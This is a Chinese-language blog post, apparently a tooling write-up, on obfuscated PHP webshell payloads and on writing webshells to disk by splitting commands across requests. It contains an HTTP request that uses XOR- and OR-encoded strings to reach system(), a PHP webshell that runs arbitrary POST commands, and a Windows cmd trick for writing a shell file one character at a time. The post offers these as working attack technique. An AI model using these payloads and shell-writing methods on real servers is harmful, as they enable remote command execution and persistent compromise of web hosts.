 ![image-20211123215215046](https://wwf-image.oss-cn-hangzhou.aliyuncs.com/自写工具/PHP下WebShell混淆Payload/3.png)

然后改成这样，通过BP发包

```http
POST /?cmd=${("%5E%5E4-/"^"%01%0E%7B~%7B")}{%ff}(("7"|"%60").("%60"|"%08").("/"|"%60").("%21"|"%40").("%60"|"%0D").("%60"|"%09")); HTTP/1.1
Host: 192.168.85.128
...
Content-Length: 10

%ff=system
```

命令执行成功

![image-20211123220213671](https://wwf-image.oss-cn-hangzhou.aliyuncs.com/自写工具/PHP下WebShell混淆Payload/4.png)

# Windows和Linux下命令拆分写马

## 介绍

大家学RCE的时候，肯定都见过命令拆分的形式发包写马...所以写了两个py脚本

一个win下的cmd（为了兼容）、一个linux下的bash

用的马都是这个

```php+HTML
<?php
    $cmd = $_POST['cmd'];
    // if(strlen($cmd) < 16){
        system($cmd);
		echo $cmd;
    // }
	// else
		// echo "Wrong!"
?>
```

## Win

这个脚本比较简单，主要是利用自己想的一个语法糖。因为cmd默认用echo输出是会带回车的...并不能用来写马

琢磨了很久:

```powershell
set /p=^{c}<nul>>1.php
```

利用set命令的/p选项；传入`nul`这个空白标识符，再赋值给空白变量就会直接输出！然后再重定向到马就可以啦

![image-20211204175152703](https://wwf-image.oss-cn-hangzhou.aliyuncs.com/自写工具/Windows和Linux下命令拆分写马/1.png)
